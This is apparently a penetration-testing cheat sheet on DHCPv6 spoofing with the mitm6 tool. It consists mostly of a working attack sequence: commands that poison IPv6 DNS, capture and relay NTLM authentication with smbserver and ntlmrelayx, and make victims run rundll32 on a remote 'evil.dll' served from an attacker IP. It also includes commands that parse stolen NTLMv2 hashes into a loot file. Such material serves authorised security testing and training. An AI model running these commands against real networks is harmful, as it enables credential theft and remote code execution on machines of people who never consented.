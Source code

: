 # DHCPv6 Spoofing




## mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

Install:

```
$ git clone https://github.com/fox-it/mitm6 ~/tools/mitm6 && cd ~/tools/mitm6
$ python3 setup.py install
Or
$ pipx install -f "git+https://github.com/fox-it/mitm6.git"
```

Generate a list of targets for NTLM relay and prepare a C2 listener and stager:

```
$ cme smb 192.168.1.0/24 --gen-relay-list relay.txt
```

Start SMB server to capture NTLM hashes and serve the stager:

```
$ sudo smbserver.py -smb2support share `pwd` | tee -a ~/ws/log/mitm6-smbserver.out
```

Get ready to relay authentication and try executing a command:

```
$ ntlmrelayx.py -6 -tf relay.txt --no-smb-server -wh attacker-wpad -c 'cmd /c C:\Windows\System32\rundll32.exe \\10.10.13.37\share\evil.dll, SVywATCKorN'
```

Start MitMing:

```
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```

Parse, sort and save NTLM hashes:

```
 # Users
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | cut -c 5- | grep -v '\$' > net-ntlmv2.mitm6
$ sort -u -t: -k1,1 net-ntlmv2.mitm6 ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.mitm6
 # Machines
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | grep '\$' | cut -c 5- | sort -u -t: -k1,1
```



### Attack vectors

Grab hashes with `smbserver.py` (passive):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server and responds with the attacker's IP for all incoming queries.
4. `smbserver.py` collects hashes during SMB requests from victims.

Relay authentication with ntlmrelayx.py (active):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server, `ntlmrelayx.py` serves a malicious WPAD file with an inexistent hostname (which will be resolved to the attacker's IP anyway) and acts like a rogue proxy server and `mitm6.py` responds with the attacker's IP for all the incoming DNS queries.
4. Victims grab the WPAD file and ask the rogue IPv6 DNS server (attacker's machine) to resolve its location - resolved to attacker's machine.
5. Victims go to the rogue proxy server and there `ntlmrelayx.py` responses with `HTTP 407 Proxy Authentication`.

